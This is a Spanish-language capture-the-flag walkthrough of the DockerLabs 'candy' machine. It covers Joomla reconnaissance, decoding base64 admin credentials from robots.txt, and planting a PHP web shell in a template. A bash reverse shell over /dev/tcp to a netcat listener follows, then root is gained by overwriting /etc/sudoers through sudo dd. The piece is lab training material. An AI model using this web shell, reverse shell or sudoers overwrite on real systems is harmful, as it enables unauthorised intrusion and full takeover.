 Máquina candy [DockerLabs](https://dockerlabs.es)

Autor: [Luisillo_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Fácil

![dock](./img/dock.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Thu Aug 29 20:00:40 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-08-29 20:00:41 -03 for 15s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-robots.txt: 17 disallowed entries 
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
| /language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/ 
|_/plugins/ /tmp/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 20:00:56 2024 -- 1 IP address (1 host up) scanned in 16.16 seconds
```

Como vemos solo esta abierto el puerto 80 corriendo apache, por lo que podemos intuir que la intrusion es mediante uan reverse shell.

##### PUERTO 80:

![80](./img/80.png)

Como vemos parece haber un `joomla`, por lo que podemos usar la herramienta `joomscan` de la siguiente manera:

```css
joomscan -u http://172.17.0.2/
```

```css
[H[2J[33m
    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
[31m			(1337.today)[0m
   
    --=[[34mOWASP JoomScan[0m
    +---++---==[Version : [31m0.0.7
[0m    +---++---==[Update Date : [[31m2018/09/23[0m]
    +---++---==[Authors : [31mMohammad Reza Espargham , Ali Razmjoo[0m
    --=[Code name : [31mSelf Challenge[0m
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

[34m[34mProcessing http://172.17.0.2/ ...


[34m
[+] FireWall Detector
[31m[++] Firewall not detected
[34m[34m
[+] Detecting Joomla Version
[33m[++] Joomla 4.1.2
[34m[34m
[+] Core Joomla Vulnerability
[31m[++] Target Joomla core is not vulnerable
[34m[34m
[+] Checking apache info/status files
[31m[++] Readable info/status files are not found
[34m[34m
[+] admin finder
[33m[++] Admin page : http://172.17.0.2/administrator/
[34m[34m
[+] Checking robots.txt existing
[33m[++] robots.txt is found
path : http://172.17.0.2/robots.txt 

Interesting path found from robots.txt
http://172.17.0.2/joomla/administrator/
http://172.17.0.2/administrator/
http://172.17.0.2/api/
http://172.17.0.2/bin/
http://172.17.0.2/cache/
http://172.17.0.2/cli/
http://172.17.0.2/components/
http://172.17.0.2/includes/
http://172.17.0.2/installation/
http://172.17.0.2/language/
http://172.17.0.2/layouts/
http://172.17.0.2/un_caramelo
http://172.17.0.2/libraries/
http://172.17.0.2/logs/
http://172.17.0.2/modules/
http://172.17.0.2/plugins/
http://172.17.0.2/tmp/

[34m[34m
[+] Finding common backup files name
[31m[++] Backup files are not found
[34m[34m
[+] Finding common log files name
[31m[++] error log is not found
[34m[34m
[+] Checking sensitive config.php.x file
[31m[++] Readable config files are not found
[34m[33m

Your Report : reports/172.17.0.2/
[0m
```

Como vemos hay varias cosas interesantes, pero luego de revisar, lo único que nos va a ayudar es el "robots.txt" ya que si entramos desde el navegador y vemos la última línea veremos estas credenciales:

```css
admin:c2FubHVpczEyMzQ1
```

que como vemos están en base64, por lo que simplemente vamos al terminal y ejecutamos:

```css
echo 'c2FubHVpczEyMzQ1' | base64 -d
```

```css
sanluis12345
```

Por lo que ya tenemos credenciales: `admin:sanluis12345`. Para introducirlas tenemos que ir a `172.17.0.2/administrator`.

# INTRUSION

Ahora continuaremos a enviarnos una reverse shell, para hacerlo vamos a `system > Templates > Site Templates > Cassiopeia Details and Files`. Una vez ahí editaremos el index.php borrando todo y solo dejando el siguiente codigo:

```php
<?php
       system($_GET['cmd']);
?>
```

Lo guardamos y volvemos a `http://172.17.0.2` pero ponemos lo siguiente:

```css
http://172.17.0.2/?cmd=bash -c 'bash -i >%26 /dev/tcp/<IP>/<PUERTO> 0>%261'
```

pero antes de enviarlo escuchamos con el netcat de la siguiente manera:

```css
nc -nlvp 443 # Elije el puerto que quieras
```

# ESCALADA DE PRIVILEGIOS

Antes de continuar primero haremos el tratamiento de la tty, para hacerlo debemos ejecutar estos comandos:

```css
script /dev/null -c bash # Damos al enter y presionamos ctrl+Z
stty raw -echo; fg # Damos al enter y escribimos "reset xterm" y nuevamente enter
export TERM=xterm && export SHELL=bash && stty rows 33 columns 128
```

Ahora si esta todo listo para escalar de manera correcta.

### www-data

Siendo el usuario www-data podemos ejcutar `sudo -l` pero no nos sirve de nada, entonces luego de buscar, veo que hay un archivo en `/var/backups/hidden/otro_caramelo.txt ` y si lo leemos tiene esto:

```css


                          _____             _             _           _                                           
                         |  __ \           | |           | |         | |                                          
  ______ ______ ______   | |  | | ___   ___| | _____ _ __| |     __ _| |__  ___     ______ ______ ______ ______   
 |______|______|______|  | |  | |/ _ \ / __| |/ / _ \ '__| |    / _` | '_ \/ __|   |______|______|______|______|  
                         | |__| | (_) | (__|   <  __/ |  | |___| (_| | |_) \__ \                                  
                         |_____/ \___/ \___|_|\_\___|_|  |______\__,_|_.__/|___/                                  



Aqui esta su caramelo Joven :)

<?php
// Información sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';

// Código de conexión a la base de datos
function connectToDatabase() {
    global $db_host, $db_user, $db_pass, $db_name;
    $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
    if ($conn->connect_error) {
        die("Conexión fallida: " . $conn->connect_error);
    }
    return $conn;
}

// Información adicional
echo "Bienvenido a Joomla en línea!";
?>



  ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ 
 |______|______|______|______|______|______|______|______|______|______|______|______|______|______|______|______|

```

Lo único que nos sirve es la contraseña del usuario luisillo que es "luisillosuperpassword", por lo que escalamos ejecutando `su luisillo` y poniendo la contraseña.

### luisillo

Si ejecutamos `sudo -l` vemos lo siguiente:

```css
Matching Defaults entries for luisillo on ee406841b794:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on ee406841b794:
    (ALL) NOPASSWD: /bin/dd
```

Por lo que para escalar podemos ejcutar esto:

```css
LFILE=/etc/sudoers
echo "luisillo ALL=(ALL:ALL) ALL" | sudo dd of=$LFILE
```

Una vez hecho esto ya tendremos permisos root para todos los comandos, y solo escalamos ejecutando `sudo su` y poniendo la contraseña de luisillo.

![root](./img/root.png)

Gracias por leer.